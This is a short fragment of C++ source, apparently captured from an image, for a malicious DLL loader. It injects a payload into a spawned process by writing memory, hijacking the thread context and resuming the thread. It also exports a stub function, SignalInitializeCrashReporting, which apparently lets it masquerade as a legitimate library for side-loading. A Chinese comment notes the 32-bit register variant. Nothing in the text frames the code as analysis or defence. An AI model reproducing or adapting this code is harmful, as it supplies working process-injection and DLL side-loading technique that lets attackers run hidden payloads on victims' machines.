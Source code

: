 ```
    WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
    // 32 位使用 Context.Eip = (DWORD_PTR)v24;
    Context.Rip = (DWORD_PTR)v24;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    result = CloseHandle(ProcessInformation.hProcess);
  }
  TerminateProcess(GetCurrentProcess(), 0);
  return 0;
}
extern "C" __declspec(dllexport) int SignalInitializeCrashReporting() {
  return 0;
}
BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```
